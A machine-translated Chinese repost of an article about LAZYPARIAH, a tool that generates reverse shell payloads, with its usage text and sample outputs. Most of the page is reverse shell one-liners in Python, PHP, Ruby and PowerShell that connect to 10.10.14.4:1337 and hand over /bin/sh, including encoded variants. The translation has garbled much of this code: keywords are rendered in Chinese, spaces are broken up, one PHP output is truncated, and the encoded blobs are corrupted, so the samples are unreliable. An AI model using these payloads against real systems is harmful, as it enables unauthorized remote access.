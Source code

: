 # LAZYPARIAH:一个动态生成反向 Shell 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/lazypariah/>

[![](img/29790474ab88f4b7215805e43ba20b2f.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhZCudEpJu0LQxt0uvLIuREPY0uuhWSOxum6J0-dozRToTqzYxCqOSLB4qW_SDf6R5qJ37sx9dwLRNdXlU1ZnoxWwgX1TUIN_T73Sq8BW-eoSolJpr2gUMQrLHQMKCbK0lFYvgiy21ZHXlzsYR1tIdYJ2QcIPuwNlfSEBcLHrEiMYVMXSvPCyc3IGgv/s728/download%20(1).png)

LAZYPARIAH 是一个用纯 Ruby 编写的简单且易于安装的命令行工具，可以在渗透测试和夺旗(CTF)竞赛中使用，以动态生成一系列反向 shell 有效负载。

LAZYPARIAH 支持的反向 shell 有效负载包括(但不限于):

*   c 二进制有效载荷(动态编译):`**c_binary**`
*   Ruby 有效载荷:**`ruby``ruby_b64``ruby_hex``ruby_c`**
*   Powershell 有效载荷: **`powershell_c`，`powershell_b64`**
*   Base64 编码的 Python 负载:`**python_b64**`
*   Rust 二进制有效载荷(动态编译):`**rust_binary**`
*   包含 base64 编码的 Python 有效负载的 PHP 脚本通过`**system()**`函数调用:`**php_system_python_b64**`
*   Java 类(动态编译):`**java_class**`
*   Perl 有效负载:**、`perl`、`perl_b64`、`perl_hex`、`perl_c`、**
*   简单的 PHP 有效负载(针对特定的文件描述符): **`php_fd`，`php_fd_c`，`php_fd_tags`，**

## 警告

该工具旨在仅由合格的渗透测试人员、安全研究人员和红队专业人员在授权的情况下使用。在下载、安装或使用此工具之前，请确保您了解您所在司法管辖区的相关法律。本工具的作者不认可、鼓励或纵容将本工具用于非法或未经授权的目的。

## 依赖关系

*   Ruby >= 2.7.1 (LAZYPARIAH 尚未在以前版本的 Ruby 上进行测试)
*   OpenJDK(可选:仅对于`**java_class**`有效载荷是必需的。)
*   GCC(可选:仅`**c_binary**`有效载荷需要。)
*   Rust(可选:仅`**rust_binary**`有效载荷需要。)

## 安装

LAZYPARIAH 可以使用 RubyGems 安装程序安装在大多数 GNU/Linux 和 BSD 系统上，如下所示:

**宝石安装懒人**

## 使用

**用法:lazypariah【选项】
注意:可能是 IPv4 地址、IPv6 地址或主机名。
示例:lazy pariah-u python _ b64 10 . 10 . 14 . 4 1555
示例:lazypariah python_c 恶意. local 1337
有效载荷:
awk
bash _ TCP
c _ binary
Java _ class
NC
NC _ openbsd
NC _ pipe
nodejs
nodejs _ b64
nodejs _ c ruby
ruby _ b64
ruby _ c
ruby _ hex
rust _ binary
socat
有效选项:
-h，–help 显示帮助文本并退出。
-l，–许可显示许可信息并退出。
-u，–URL URL-对有效负载进行编码。
-v，–版本显示版本信息并退出。
-D，–FD INTEGER 指定 TCP 的目标使用的文件描述符。某些有效载荷需要。
-P，–PV INTEGER 指定有效负载的 Python 版本。必须是 2 或 3。默认情况下，没有指定版本。
-N，–no-new-line 不要在有效负载的末尾添加新行字符。
–b64 以 base-64 编码 c_binary、rust_binary 或 java_class 有效负载。
–十六进制编码十六进制的 c_binary、rust_binary 或 java_class 有效负载。
–gzip 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载。
–gzip _ b64 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并以 base-64 编码结果。
–gzip _ hex 使用 zlib 压缩 c_binary、rust_binary 或 java_class 有效负载，并将结果编码为十六进制。**

## 更多注释和示例

上面列出的有效载荷或多或少都有系统的名称。

以`**_c**`结尾的有效负载旨在从 shell 会话中执行。这些有效载荷使用相关的解释器(如`**python3 -c**`或`**ruby -e**`)直接执行代码。

例如，命令`**lazypariah python_c 10.10.14.4 1337**`应该产生以下输出:

**python -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

另一方面，命令`**lazypariah python 10.10.14.4 1337**`应该简单地产生一个 Python 代码块，该代码块有可能被放在一个`**.py**`文件中:

**导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；**

一般来说，选择以`**_b64**`结尾的有效负载应该会产生一个命令，该命令旨在以类似于以`**_c**`结尾的有效负载的方式从 shell 会话中运行，但是这些命令在结构上会有所不同。这些命令将基本上通过管道把一个 base64 编码的代码块传递给`**base64 -d**`，然后传递给相关的解释器(比如`**python3**`、`**python2**`或`**ruby**`)。

例如，命令`**lazypariah python_b64 10.10.14.4 1337**`应该产生以下输出:

**echo aw 1wb 3j 0 ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzqzzzzzb 2 nrzquzzzzzq su 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffffffffff0po 3 非常 29 ubmvjdcgoiyeljljevljje 0 ljqildzmldzdcpkttvcy 5 kdxayhmzmlszw 5 vkcksmck 7 ig 9**

例外的是`**powershell_b64**`，它使用 Powershell 内置的 base64 解码器。例如，命令`**lazypariah powershell_b64 10.10.14.4 1337**`应该返回以下内容:

**powershell-e jajajajagawablag 4 adaagad 0 AIA guadatae 8 aygbqaguayb0 acaauwb 5 Ahmad abag 0 alguadaguadaau afmabwajagssazqb 0 ahmalgalgalgebanmar abdagwablag 4 adaaoamqawac 4 amqawac 4 amqa 0 AC 4 anaanaanaanaanakawamqazamadmanwapasajazaqacgblabqagad 0 aiaagmababpagabab 0 AC 4 arwbalaqauwb 0**

(注意:上述有效负载的长度是由于 Powershell 使用 UTF-16LE 编码，其中一个字符对应两个字节。)

这些类型的有效负载在某些情况下非常有用，因为它们不包含任何单引号或双引号。

以类似的方式，选择以`**_hex**`结尾的有效负载将产生一个命令，将十六进制编码的代码块传送到`**xxd -p -r -**`，然后传送到相关的解释器。例如，`**lazypariah perl_hex 10.10.14.4 1337**`应该产生以下输出:

回声 75736520536 f 636 b 65743 b 24693d 2231302 e 31302 e 31342 e 34223 b 24703d 3133333373 b 736 f 636 b 657428532 c 50465 f 494 e 45542 c 534 f 434 b 5 f 53545245414d 2c 6765747077

编译后的有效负载( **`c_binary`、`java_class`** 和`**rust_binary**`)有可选的命令行参数，用于 zlib 压缩(`**--gzip**`)、base64 编码(`**--b64**`)和十六进制编码(`**--hex**`)。

例如，命令`**lazypariah --b64 java_class 10.10.14.4 1337**`应该产生以下输出:

**yv 66 vgaaadca xwhqapbwabwabwaqagaac 0 kaaiagavbwawcaaxcgaadikakamcmawoaiwa 0 cgaidmkakakakacykacynajaa 1 cgiadykakakakakachuogunaaamgoaowa 8 cgajad 0 had 4 kamapwobwabbbbwabbwabwabqxq+aqadkclwaqaeq 29 kzqed 0 xpbmvodw 1 izjuyzqvn 0**

在分别使用`**--gzip_b64**`和`**--gzip_hex**`命令行参数以 base64 或十六进制编码之前，也可以对上述编译后的负载之一执行 zlib 压缩。例如，命令`**lazypariah --gzip_hex java_class 10.10.14.4 1337**`应该产生以下输出:

**1f 8b 08003 ca 25960000375535d 57125114 DD 83335 ca 0511431 a 53433 b 5f 00 bb 42 c13 cc 4a 3200 DCD 5 a 03 DC 741419 d7cc 50 f 6577 ca 8b57 cf 1 b55 EB 095 ab 7e 403 fa 6d 52 fc8 ce 0549 c91 ae6 cced 9779 F7 BCE 9939 F3 FDD 7976 f 0046 f 0 ca 8336 f 430**

一些有效负载要求用户指定 TCP 连接的目标使用的文件描述符。这种有效载荷的一个例子是`**php_fd_tags**`，它是一个简单的 PHP 有效载荷，包含在 PHP 标签(`**<?php**`和`**?>**`)中，目标是一个特定的文件描述符。

要指定目标文件描述符，用户必须使用命令行参数`**-D INTEGER**`或`**--fd INTEGER**`。例如，要生成以文件描述符`5`为目标的`p**hp_fd_tags**`有效负载，可以使用下面的命令:`**lazypariah -D 5 php_fd_tags 10.10.14.4 1337**`

由此产生的有效载荷应该如下:`**<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&5 >&5** **2>&5");?>**`

下面是一些命令及其各自输出的示例。

命令`**lazypariah -P 3 -u python_b64 10.10.14.4 1337**`的输出:

**echo % 20aw 1wb 3j0ihnvy 2 tldcxzdjwcm 9 jzxnzlg 9 zo 3c9ja 2v 0 lnnvy 2 tldchzzquzb 2 nrzquzzzsu 5 fvcxzb 2 nrzquu 09 ds 19 tvfffffffffffffffffffffffffqpo ljje 0 ljqildzmldzdcpkttvcy 5 kdyhmzmlszw 5 vkcmck 7**

命令`**lazypariah -P 2 python_c 10.10.14.4 1337**`的输出:

**python 2-c’导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(“10 . 10 . 14 . 4”，1337))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'**

命令`**lazypariah -D 3 php_fd_tags 10.10.14.4 1337**`的输出:

**&3>2&3】；？>**

命令`**lazypariah ruby 10.10.14.4 1337**`的输出:

**要求“插座”；如果分叉则退出；c = TCP socket . new(" 10 . 10 . 14 . 4 " 1337 ")；while(cmd = c . gets)；IO.popen(cmd，" r"){|io|c.print io.read}end**

[Download](https://github.com/octetsplicer/LAZYPARIAH#usage)
